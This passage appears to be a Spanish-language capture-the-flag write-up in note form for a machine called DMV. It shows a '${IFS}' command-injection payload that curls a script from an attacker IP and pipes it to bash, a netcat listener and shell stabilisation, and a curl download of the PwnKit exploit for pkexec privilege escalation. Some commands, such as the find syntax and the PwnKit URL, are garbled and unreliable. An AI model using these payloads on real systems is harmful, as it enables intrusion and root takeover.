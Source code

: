![[Captura de pantalla 2023-06-23 150020.png]]

```
<`curl${IFS}10.10.18.128:4545|bash`
```

![[Captura de pantalla 2023-06-23 150054.png]]

==Python3 nos representa que tubo una petición GET con estado 200 lo cual es el indicio que podemos pivotar de máquina en máquina.


#  ==Usuario www-data Pwned.

---


# Tratamiento de la TTI  DMV(2/2)

```
script /dev/null -c bash
Ctrl + c
sudo nc -nlvp 3131
reset xterm
```

![[Captura de pantalla 2023-06-23 150349.png]]

```
export TERM=xterm
```

![[Captura de pantalla 2023-06-23 150532.png]]

---

# Escalamiento de privilegios root DMV.

==Cuando filtramos las aplicaciones que tiene dentro DMV se ve una aplicación vulnerable llamada pkexec

```
find -4000 /dev/null/
```
![[Captura de pantalla 2023-06-23 150834.png]]

==La aplicación es vulnerable a una herramienta que encontramos en Github llamada PwnKit

```
Curl -fsSL http://PwnKit.github.com -o PwnKit
```

![[Captura de pantalla 2023-06-23 151111.png]]
